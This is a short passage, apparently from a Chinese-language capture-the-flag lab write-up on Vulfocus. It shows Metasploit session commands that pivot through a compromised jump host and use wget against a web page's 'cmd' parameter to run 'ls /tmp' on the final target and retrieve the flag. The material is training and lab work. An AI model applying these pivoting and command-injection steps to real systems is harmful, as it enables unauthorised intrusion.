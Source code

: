 ### 拿到最终靶标上的flag

```
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```

![alt text](./image/image-36.png)

提交至vulfocus处，成功，至此最后的靶标5也被成功攻破。
